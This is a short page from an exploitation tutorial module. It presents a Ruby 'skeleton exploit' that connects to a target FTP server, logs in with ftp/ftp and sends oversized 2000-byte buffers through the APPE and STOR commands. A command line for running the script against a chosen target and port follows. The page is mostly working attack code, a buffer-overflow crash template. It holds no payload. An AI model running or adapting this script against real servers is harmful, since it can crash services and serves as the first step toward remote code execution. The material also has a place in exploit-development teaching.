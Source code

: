 # Module 0x5 | Exploitation KungFu
## Skeleton exploit

```ruby
#!/bin/ruby
#
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close
```
To execute it
```
ruby ftp_exploit.rb [TARGET] [PORT]
```
Notice that some services has to receive from it and some is not.
